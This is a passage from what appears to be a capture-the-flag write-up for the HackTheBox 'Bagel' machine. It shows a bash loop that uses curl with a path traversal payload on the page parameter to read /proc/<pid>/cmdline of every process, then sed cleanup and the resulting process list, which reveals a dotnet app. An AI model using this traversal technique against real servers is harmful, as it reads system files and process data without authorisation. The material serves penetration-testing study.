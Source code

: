 So after google-ing a bit and testing it seems that it is creating a websocket and sending the query information for orders in JSON format so in the end pretty simple.

But most interesting part is the comment that says:

```python
# don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
```

This leads me to believe that we somehow need to find this dotnet app and this is probably an already running app since we managed to use it through the previous websocket it must be a running process so lets enumerate /proc/{id}/cmdline of all processes and hopefully find the dotnet app.

To simplify the process for myself i made a short and messy bash script to read every cmdline from every process and output it to a file:

```bash
for i in {0..9999}; do curl "http://bagel.htb:8000/?page=../../../../../../../../../../../proc/$i/cmdline" >> output.txt; echo "\n" >> output.txt; done
```

- probably can be simpler but i didn’t want to spend too much on it 😛

Next the output had many blank lines and “File not found” junk and i removed it with 2 simple sed commands:

```bash
1. sed -i '/^$/d' output.txt
2. sed -i '/^File not found$/d' output.txt
```

Now the results are much mcuh cleaner and we have a file full of process paths and commands:

```bash
/usr/lib/systemd/systemdrhgb--switched-root--system--deserialize35
/usr/lib/systemd/systemdrhgb--switched-root--system--deserialize35
/usr/local/sbin/laurel--config/etc/laurel/config.toml
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
python3/home/developer/app/app.py
/usr/lib/polkit-1/polkitd--no-debug
/usr/bin/dbus-broker-launch--scopesystem--audit
/usr/sbin/rsyslogd-n
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
/usr/sbin/abrtd-d-s
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
dbus-broker--log4--controller9--machine-idce8a2667e5384602a9b46d6ad7614e92--max-bytes536870912--max-fds4096--max-matches131072--audit
/usr/sbin/NetworkManager--no-daemon
sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
/usr/lib/polkit-1/polkitd--no-debug
/usr/lib/polkit-1/polkitd--no-debug
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
/usr/sbin/atd-f
/usr/sbin/crond-n
/sbin/agetty-o-p -- \u--noclear-linux

[...SNIP...]
```
